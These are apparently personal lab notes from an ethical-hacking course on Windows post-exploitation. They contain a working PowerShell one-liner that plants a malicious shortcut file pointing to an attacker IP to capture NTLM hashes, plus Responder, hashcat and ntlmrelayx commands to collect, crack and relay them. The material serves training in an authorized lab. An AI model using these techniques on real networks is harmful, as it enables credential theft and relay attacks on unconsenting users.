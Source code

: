# Windows Post-Exploitation — PEH Lab Notes

Notes from the Practical Ethical Hacking Active Directory lab.  
All actions performed in an **authorized lab environment**.

---

## 1 Capturing NTLM via Malicious `.lnk` Files

**Goal:** Plant a `.lnk` file in a writable share so that when a user browses the folder, the custom icon forces their machine to authenticate to your attacker box over SMB, leaking NTLM credentials.

**Quick flow:**
1. From Meterpreter → `shell` → `net view \\TARGET-SERVER` → find writable share.
2. Map share (`net use Z:`) and test write with `echo test > Z:\file.txt`.
3. In PowerShell, create `.lnk` with `IconLocation` = `\\ATTACKER-IP\icon\foo.ico`.
4. Background the shell (`CTRL+Z`, `y`) to keep session alive.
5. Run Responder or impacket SMB server on Kali.
6. Wait for user to view share → collect hashes.

**One-liner PowerShell from Meterpreter:**
```powershell
$a='192.0.2.10';$d='\\\\TARGET-SERVER\\\\hackme\\\\readme.lnk';$s=New-Object -ComObject WScript.Shell;$l=$s.CreateShortcut($d);$l.TargetPath='cmd.exe';$l.Arguments='/c exit';$l.WorkingDirectory=$env:SystemRoot+'\\System32';$l.IconLocation='\\\\'+$a+'\\icon\\foo.ico';$l.Description='Readme';$l.Save()
```

---

## Collecting Hashes (Quick)

**Responder** — capture NetNTLMv2:
```bash
sudo responder -I eth0 -dwv
```
- Logs in `/usr/share/responder/logs/SMB-NTLMv2-*.txt`.
- Crack with:
```bash
hashcat -m 5600 /path/to/hash.txt /wordlist
```

**ntlmrelayx** — relay or capture:
```bash
echo "\\\\TARGET1" > targets.txt
sudo ntlmrelayx.py -tf targets.txt -smb2support -of hashes.txt
```

---

**Disclaimer:** For PEH lab use only. Do not attempt on networks you do not own or have explicit permission to test.
